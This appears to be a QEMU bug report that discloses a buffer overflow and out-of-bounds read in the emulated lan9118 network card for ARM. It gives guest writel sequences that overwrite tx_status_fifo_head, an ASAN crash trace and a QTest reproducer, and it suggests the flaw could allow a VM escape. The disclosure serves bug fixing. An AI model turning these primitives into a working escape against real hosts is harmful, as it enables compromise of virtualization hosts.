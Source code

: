 tag: arch: arm
tag: type: BO/OOB read

# Buffer overflow and out-of-bounds read in lan9118 NIC for ARM

There is a buffer overflow in tx_fifo_push in lan9118 NIC for ARM causing an out-of-bounds read of tx_status_fifo. The write and read primitives are so powerful that they can likely be abused to escape the VM.

## Read primitive
In tx_status_fifo_pop, there is an out-of-bounds read at the line:
val = s->tx_status_fifo[s->tx_status_fifo_head];
because there is an overwrite of s->tx_status_fifo_head.

Security Impact: because s->tx_status_fifo_head is int32, so this read primitive seems powerful.

## Buffer overflow and the write primitive
In tx_fifo_push, there are three states for tx_fifo: TX_IDLE, TX_B, TX_DATA. However, because of the lack of the check of s->txp->len, we can visit TX_IDLE->TX_B->TX_DATA many times to overflow s->txp->data whose size is only 2048 then overwrite s->tx_status_fifo_head.

This can be done like below. (Suppose the hardware address of lan9118 is 0x5000000.)
First, the max size of the buffer you can write once is 0x800. The pattern is in the following.
	writel 0x5000020 0x800 // 0x800 bytes buffer you’d like to write
	writel 0x5000020 0x0
	writel 0x5000020 0x0 … (0x200 times) // issue 0x800 / 4 times
Second, repeat the first step (change the size of the buffer you’d like to write) and reach where you’d like to overwrite.
```
    LAN9118Packet tx_packet;     // last field: data[2048]
    int32_t tx_status_fifo_used;
    int32_t tx_status_fifo_head; // overwrite this
    uint32_t tx_status_fifo[512];
```
If I’d like to overwrite tx_status_fifo_head, then I should issue instructions in the following.
writel 0x5000020 0x8
writel 0x5000020 0x0
writel 0x5000020 0xaabbccdd // overwrite tx_status_fifo_used
writel 0x5000020 0xddccbbaa // overwrite tx_stats_fifo_head

Security Impact: Because we can repeat the first step without limit, this write primitive seems very powerful.

## More technique details

### QEMU version, upstream commit/tag
c52d69e7dbaaed0ffdef8125e79218672c30161d/6.1.50

### Host and Guest
Ubuntu 18.04 docker/QTest Fuzzer

### Stack traces, crash details

```
AddressSanitizer:DEADLYSIGNAL
=================================================================
==426==ERROR: AddressSanitizer: SEGV on unknown address 0x62cf773fa008 (pc 0x561e8635387a bp 0x7fff71ca92a0 sp 0x7fff71ca9260 T0)
==426==The signal is caused by a READ memory access.
    #0 0x561e8635387a in tx_status_fifo_pop /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11
    #1 0x561e86352b79 in lan9118_readl /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:1249:16
    #2 0x561e86aea48c in memory_region_read_accessor /root/qemu/build-oss-fuzz/../softmmu/memory.c:442:11
    #3 0x561e86ad2895 in access_with_adjusted_size /root/qemu/build-oss-fuzz/../softmmu/memory.c:552:18
    #4 0x561e86ad2895 in memory_region_dispatch_read1 /root/qemu/build-oss-fuzz/../softmmu/memory.c:1422:16
    #5 0x561e86ad2895 in memory_region_dispatch_read /root/qemu/build-oss-fuzz/../softmmu/memory.c:1450:9
    #6 0x561e86971a83 in flatview_read_continue /root/qemu/build-oss-fuzz/../softmmu/physmem.c:2810:23
    #7 0x561e86a2cf0a in address_space_read /root/qemu/include/exec/memory.h:2518:26
    #8 0x561e86a2cf0a in qtest_process_command /root/qemu/build-oss-fuzz/../softmmu/qtest.c:568:13
    #9 0x561e86a2cf0a in qtest_process_inbuf /root/qemu/build-oss-fuzz/../softmmu/qtest.c:797:9
    #10 0x561e86c15d5b in fd_chr_read /root/qemu/build-oss-fuzz/../chardev/char-fd.c:68:9
    #11 0x7f0e3bfa23a4 in g_main_context_dispatch (/usr/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4c3a4)
    #12 0x561e8707e8e7 in glib_pollfds_poll /root/qemu/build-oss-fuzz/../util/main-loop.c:231:9
    #13 0x561e8707e8e7 in os_host_main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:254:5
    #14 0x561e8707e8e7 in main_loop_wait /root/qemu/build-oss-fuzz/../util/main-loop.c:530:11
    #15 0x561e86b38138 in qemu_main_loop /root/qemu/build-oss-fuzz/../softmmu/runstate.c:725:9
    #16 0x561e85ac86a5 in main /root/qemu/build-oss-fuzz/../softmmu/main.c:50:5
    #17 0x7f0e3ada2bf6 in __libc_start_main /build/glibc-S9d2JN/glibc-2.27/csu/../csu/libc-start.c:310
    #18 0x561e859ef589 in _start (/root/qemu/build-oss-fuzz/qemu-system-arm+0x1108589)

AddressSanitizer can not provide additional info.
SUMMARY: AddressSanitizer: SEGV /root/qemu/build-oss-fuzz/../hw/net/lan9118.c:730:11 in tx_status_fifo_pop
==426==ABORTING
```

### Reproducer steps

I use QTest to reproduce this crash.
Note that qemu should be instrumented by ASAN.

```
#!/bin/bash -x
export QEMU=/root/qemu/build-oss-fuzz/qemu-system-arm
export BUILDROOT=./
$QEMU \
    -machine smdkc210,accel=qtest \
    -qtest stdio -monitor none -serial none \
    -display none < lan9118-00
```

Attachment: https://drive.google.com/file/d/1kmU3fwKi8G3atE_hfEQNz1WeJ0F3Vjum/view?usp=sharing

## Contact

Let me know if I need to provide more information.
